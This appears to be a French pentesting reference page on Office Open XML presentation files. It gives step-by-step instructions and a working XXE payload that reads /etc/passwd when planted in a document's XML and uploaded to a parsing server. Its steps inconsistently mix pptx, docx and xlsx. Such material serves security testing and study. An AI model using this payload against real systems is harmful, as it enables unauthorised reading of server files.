 # Office Open XML Presentation

<img src="logo.png" title="" alt="" height="150">

**Facteur de risque** : XXE, XSS

**Extension** : `.pptx`, `pptm`

**Type MIME** : `application/vnd.openxmlformats-officedocument.presentationml.  presentation`

**Description** : 

**Office Open XML** (OOXML) est un format de fichier **zippé** et basé sur le **XML**, pour représenter des feuilles de calcul, des graphiques, des présentations et des documents de traitement de texte. 

`.pptx` est une extension de nom de fichier pour pŕesentation au format Office Open XML. `.pptm` permet en plus l'utilisation des **macros**.

Un fichier `.pptx` peut être désarchiver comme un fichier `.zip`. Il contient notamment plusieurs fichiers `.xml`. Microsoft conseille d'analyser dans l'ordre :

- le fichier `_rels/.rels`, qui contient les relations en reliant un ID à chaque fichier

- le fichier `[Content_Types].xml` qui contient une liste de type MIME

- le fichier `ppt/presentation.xml`, qui donne une vue d'ensemble du contenu des slides. La plupart du temps, les applications web analysent ce fichier en premier,

- et les fichiers `ppt/slides/slide1.xml`, `ppt/slides/slide2.xml`... correspondent aux différents slides avec leurs données.

Un fichier PowerPoint ou un fichier Google Slides en `.docx` correspond donc en réalité à un fichier archive `.zip` contenant plusieurs fichiers `.xml`. Des payloads pour XXE peuvent être donc injectés dans les fichiers.

## Sommaire

- XML External Entity (XML)

## XML External Entity (XML)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé
- Le serveur web doit analyser et traiter les données du fichier.

### Exploitation

Créez un nouveau fichier Word ou Google Docs vide, puis enregistrez le fichier au format `.docx` (**xxe.xlsx**)

1. Déarchivez le fichier `.docx` dans un répertoire (**FichierMalveillant**) :
   
   ```shell
   unzip xxe.docx -d FichierMalveillant
   ```

2. Le payload XXE doit être ajouté dans le fichier `.xml` que l'application traitera (dans les fichiers `word/document.xml` :
   
   ```xml
   <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
   <!DOCTYPE foo [ <!ELEMENT t ANY > <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
   <w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:cx="http://schemas.microsoft.com/office/drawing/2014/chartex" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:w15="http://schemas.microsoft.com/office/word/2012/wordml" xmlns:w16se="http://schemas.microsoft.com/office/word/2015/wordml/symex" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 w15 w16se wp14"><w:body><w:p w:rsidR="000310EC" w:rsidRDefault="00981224" w:rsidP="00981224"><w:pPr><w:pStyle w:val="Titre"/></w:pPr><w:r><w:t>Titre</w:t></w:r></w:p><w:p w:rsidR="00981224" w:rsidRDefault="00981224"><w:r><w:t>&xxe;</w:t></w:r><w:bookmarkStart w:id="0" w:name="_GoBack"/><w:bookmarkEnd w:id="0"/></w:p><w:sectPr w:rsidR="00981224"><w:pgSz w:w="11906" w:h="16838"/><w:pgMar w:top="1417" w:right="1417" w:bottom="1417" w:left="1417" w:header="708" w:footer="708" w:gutter="0"/><w:cols w:space="708"/><w:docGrid w:linePitch="360"/></w:sectPr></w:body></w:document>
   ```
   
   Ici, le payload a été placé dans le fichier pour récupérer le contenu de `/etc/password`.

3. Archivez à nouveau le fichier `.docx`, puis téléversez-le. (Il faut savoir que le fichier est techniquement correct d'après les spécifications, mais Office n'ouvrira pas le fichier). 
   
   ```shell
   zip -r xxe.docx FichierMalveillant/*
   ```
   
   ou
   
   ```shell
   zip -u xxe.docx word/document.xml
   ```

## References

- Exploiting XXE Vulnerabilities In File Parsing Functionality - YouTube : https://www.youtube.com/watch?v=LZUlw8hHp44
- Black Hat | WebCast: Exploiting XML Entity Vulnerabilities in File Parsing Functionality : https://www.blackhat.com/html/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.html
- GitHub - BuffaloWill/oxml_xxe: A tool for embedding XXE/XML exploits into different filetypes : https://github.com/BuffaloWill/oxml_xxe
- GitHub - whitel1st/docem: Uility to embed XXE and XSS payloads in docx,odt,pptx,etc (OXML_XEE on steroids) : https://github.com/whitel1st/docem
- [HackerOne](https://hackerone.com/reports/334488)

## Todo

- Ajouter un payload dans le fichier `[Content_Types].xml`

- Ajouter pour les formats SVG, Libre Office ou Open Office (`word/document.xml` -> `content.xml`), et SVG à l'internieur de LIbre ou Open

- XSS
